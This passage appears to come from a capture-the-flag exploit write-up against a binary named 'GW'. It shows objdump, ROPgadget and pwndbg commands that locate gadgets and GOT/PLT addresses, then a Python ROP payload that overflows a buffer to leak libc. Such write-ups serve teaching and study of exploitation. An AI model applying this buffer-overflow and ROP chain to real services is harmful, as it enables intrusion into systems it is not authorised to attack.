 ## Getting offsets for the first ROP

*   `send_http_error` offset: **0x08048c35**

    ```
    $ objdump -t GW | grep send_http_error
    08048c35 g     F .text	00000045              send_http_error
    ```

*   *"pop + pop"* gadget: **0x08048c32**

    ```bash
    $ ROPgadget --binary GW | grep ": pop e.. ; pop e.. ; ret"
    0x08048c32 : pop edi ; pop ebp ; ret
    0x08049435 : pop esi ; pop ebp ; ret
    ```

*   `inet_ntoa` in GOT: **0x804aed8** (note: we need to pull it from GOT in
    runtime, that's where we get our libc leak from)

    ```bash
    objdump -d -j .plt GW | grep -A3 inet_ntoa
    08048640 <inet_ntoa@plt>:
     8048640:	ff 25 d8 ae 04 08    	jmp    *0x804aed8
     8048646:	68 28 00 00 00       	push   $0x28
     804864b:	e9 90 ff ff ff       	jmp    80485e0 <.plt>
    ```

*   `read` in PLT: **0x08048600** (here we just need a place to jump to, so, a
    fixed PLT offset is fine)

    ```bash
    $ objdump -d -j .plt GW | grep -A3 read@plt
    08048600 <read@plt>:
     8048600:	ff 25 c8 ae 04 08    	jmp    *0x804aec8
     8048606:	68 08 00 00 00       	push   $0x8
     804860b:	e9 d0 ff ff ff       	jmp    80485e0 <.plt>
    ```

*   Some safe random R/W buffer to write to - the unused `TOP SECRET` message
    sounds about right: **0x804a670**:

    ```
    pwndbg> search -w "TOP SECRET"
    Searching for value: 'TOP SECRET'
    GW      0x804a670 'TOP SECRET - DO NOT INVESTIGATE - GW-CLEARANCE NEEDED'
    ```

We also know that, for the first payload, we will be talking to `sockfd=4`.

## Leaking the libc

With that, the first ROP payload is:

```python
sockfd = 4
rop1 = 1024*b'D' + 32*b'U'  # overflow buf, addr, fd, EBP and padding
rop1 += p32(0x08048c35)     # send_http_error
rop1 += p32(0x08049435)     # where we want send_http_error to return (pop+pop gadget)
rop1 += p32(sockfd)         # fd
rop1 += p32(0x0804aed8)     # inet_ntoa() in GOT
rop1 += p32(0x08048600)     # read() in PLT
rop1 += p32(0xBABEBABE)     # something dummy
rop1 += p32(0x00000000)     # STDIN_FILENO
rop1 += p32(0x0804a670)     # safe buffer("TOP SECRET" string)
rop1 += p32(0x00000010)     # count
```
